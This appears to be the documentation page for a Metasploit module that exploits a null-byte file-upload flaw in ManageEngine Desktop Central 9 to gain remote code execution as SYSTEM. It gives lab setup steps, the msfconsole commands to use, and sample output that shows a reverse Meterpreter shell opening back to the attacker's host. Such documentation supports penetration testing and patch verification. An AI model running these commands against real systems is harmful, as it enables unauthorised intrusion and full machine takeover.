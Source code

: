 ## Description

This module exploits a vulnerability found in ManageEngine Desktop Central 9. When uploading a 7z file, the FileUploadServlet class does not check the user-controlled ConnectionId parameter in the FileUploadServlet class. This allows a remote attacker to inject a null bye at the end of the value to create a malicious file with an arbitrary file type, and then place it under a directory that allows server-side scripts to run, which results in remote code execution under the context of SYSTEM. This exploit was successfully tested on version 9, build 90109 and build 91084.

**NOTE:** By default, some ManageEngine Desktop Central versions run on port 8020, but older ones run on port 8040. Also, using this exploit will leave debugging information produced by FileUploadServlet in file 'rdslog0.txt'.
       
## ManageEngine Desktop Central 9

Desktop Central is integrated desktop and mobile device management software that helps in managing servers, laptops, desktops, smartphones, and tablets from a central location.It is used for automating your regular desktop management routines like installing patches, distributing software, managing your IT Assets, managing software licenses, monitoring software usage statistics, managing USB device usage, taking control of remote desktops, and more. It supports managing both Windows, Mac and Linux operating systems.

## Prerequisites

1. Start a Windows VM (such as Win 7)
2. Install a vulnerable version of ManageEngine Desktop Central. This exploit was tested on Build 90109 and 91084. You can find the archive here: http://archives.manageengine.com/desktop-central/
3. After installation, verify that the server is working by visiting it with a browser. Depending on the version, the server port may be 8020, or 8040.

## Verification Steps

1. Do: ```use exploit/windows/http/manageengine_connectionid_write```
2. Do: ```set RHOST [IP]```
3. Do: ```check```
4. Do: ```run```

## Sample Output

```
$ msfconsole
msf > use exploit/windows/http/manageengine_connectionid_write 
msf exploit(manageengine_connectionid_write) > set rhost 192.168.1.188
rhost => 192.168.1.188
msf exploit(manageengine_connectionid_write) > check
[*] 192.168.1.188:8020 - The target appears to be vulnerable.
msf exploit(manageengine_connectionid_write) > exploit

[*] Started reverse handler on 192.168.1.64:4444 
[*] Creating JSP stager
[*] Uploading JSP stager test.jsp...
[*] Executing stager...
[*] Sending stage (885806 bytes) to 192.168.1.188
[*] Meterpreter session 1 opened (192.168.1.64:4444 -> 192.168.1.188:61023) at 2017-04-15 17:35:29 -0500
[+] Deleted ../webapps/DesktopCentral/jspf/test.jsp

meterpreter > pwd
C:\ManageEngine\DesktopCentral_Server\bin
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```
